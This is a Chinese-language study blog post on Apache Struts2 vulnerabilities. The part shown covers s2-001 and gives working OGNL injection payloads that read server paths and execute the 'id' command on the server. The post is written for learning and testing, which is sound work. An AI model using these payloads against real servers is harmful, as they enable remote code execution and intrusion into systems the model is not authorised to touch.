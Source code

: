 ```yaml
---
title: Struts2 漏洞学习
date: 2020-08-04 22:00:33
tags:
  - Java
categories:
  - Web 安全
featuredImage: https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/0.png
---
```


包含 s2-001 / s2-003 / s2-005 / s2-007 / s2-008 / s2-009 / s2-012 / s2-013 / s2-014 / s2-015 / s2-016 / s2-045 / s2-046 / s2-048 / s2-052 / s2-053 / s2-057



## s2-001

[参考](https://xz.aliyun.com/t/2672)

影响版本：2.0.0 - 2.0.8

用户提交表单失败时，提交的数据会被作为 OGNL 表达式执行，造成代码执行。

获取 tomcat 路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取网站路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```

执行命令：

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"id"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

![图 1](https://cdn.jsdelivr.net/gh/SignorMercurio/blog-cdn/Struts2/1.png)

## s2-003 | s2-005

[参考](https://meizjm3i.github.io/2019/02/01/Struts2%E6%BC%8F%E6%B4%9E%E8%B0%83%E8%AF%95%E7%AC%94%E8%AE%B0-S2-003%E3%80%81S2-005/)

影响版本：2.0.0 - 2.1.8.1
